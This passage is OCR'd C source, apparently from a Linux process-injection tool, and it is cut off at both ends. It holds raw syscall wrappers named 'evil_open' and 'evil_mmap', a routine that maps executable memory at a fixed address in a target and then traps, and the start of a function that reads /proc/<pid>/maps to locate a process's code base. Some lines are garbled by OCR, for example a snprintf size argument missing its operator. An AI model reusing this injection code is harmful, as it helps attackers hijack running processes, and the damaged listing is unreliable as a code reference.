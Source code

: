 ```
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $5, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_open(const char *path, unsigned long flags)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $2, %%rax\n"
    "syscall" : : "g"(path), "g"(flags));
    asm ("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile void * evil_mmap(void *addr, uint64_t len, uint64_t prot, uint64_t flags, int64_t fd, uint64_t off)
{
  long mmap_fd = fd;
  unsigned long mmap_off = off;
  unsigned long mmap_flags = flags;
  unsigned long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov %4, %%r8\n"
    "mov %5, %%r9\n"
    "mov $9, %%rax\n"
    "syscall\n" : : "g"(addr), "g"(len), "g"(prot), "g"(flags),
    "g"(mmap_fd), "g"(mmap_off));
  asm ("mov %%rax, %0" : "=r"(ret));
  return (void *)ret;
}

uint64_t injection_code(void * vaddr)
{
  volatile void *mem;
  mem = evil_mmap(vaddr,8192,
  PROT_READ|PROT_WRITE|PROT_EXEC,
  MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS,1,0);
  __asm__ __volatile__("int3");
}

#define MAX_PATH 512

uint64_t get_text_base(pid_t pid)
{
  char maps[MAX_PATH], line[256];
  char *start, *p;
  FILE *fd;
  int i;
  Elf64_Addr base;
  snprintf(maps, MAX_PATH 1,
  "/proc/%d/maps", pid);
  if ((fd = fopen(maps, "r")) == NULL) {
```